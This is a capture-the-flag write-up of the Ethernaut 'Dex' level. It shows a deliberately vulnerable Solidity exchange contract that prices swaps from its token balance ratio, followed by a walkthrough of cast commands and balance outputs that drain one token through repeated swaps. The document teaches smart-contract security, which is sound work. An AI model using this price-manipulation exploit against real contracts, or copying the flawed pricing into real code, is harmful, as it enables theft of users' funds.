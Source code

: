 ## Dex Level Outline

**Difficulty : 3/10**

The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.

You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.

You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract Dex  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_price(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_price(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(spender, amount);
    SwappableToken(token2).approve(spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x0b0276F85EF92432fBd6529E169D9dE4aD337b1F)

## Solution

Because the exchange rate is based on the ratio of token1 to token2, we can continouly swap the two tokens for each other till there one of the tokens have no supply left in the contract due to solidity having no floating points.

### Walkthrough
1. call the dex's approve function so that we can make the swaps
```console
cast send $LEVEL_ADDRESS "approve(address,uint)" $LEVEL_ADDRESS 1000 --gas 90000 --private-key $PRIVATE_KEY
```

2. let's find the address of token1 and token2
```console
cast call $LEVEL_ADDRESS "token1()"
```
```console
cast call $LEVEL_ADDRESS "token2()"
```

3. swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 10 --gas 250000 --private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 0
token2 : 20

[Dex balance after transaction]
token1 : 110 
token2 : 90
```

3. swap all of our token2 to token1
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 20 --gas 250000 --private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 24
token2 : 0

[Dex balance after transaction]
token1 : 86 
token2 : 110
```

4. swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 24 --gas 250000 --private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 0
token2 : 30

[Dex balance after transaction]
token1 : 110 
token2 : 80
```

5. swap all of our token2 to token1
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 30 --gas 250000 --private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 41
token2 : 0 

[Dex balance after transaction]
token1 : 69
token2 : 110
```

6. swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 41 --gas 250000 --private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 0
token2 : 65

[Dex balance after transaction]
token1 : 110 
token2 : 45
```

7. we cannot swap 65 `token2` to `token1` as we would expect to receive 158 `token1` in return which is more than the supply in the contract. To drain the contract for all 110 `token1`, we need to swap 45 `token2` to get 110 `token1`
 
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 45 --gas 250000 --private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 110
token2 : 20

[Dex balance after transaction]
token1 : 0 
token2 : 90
```

> Dex's token1 supply has now been drained
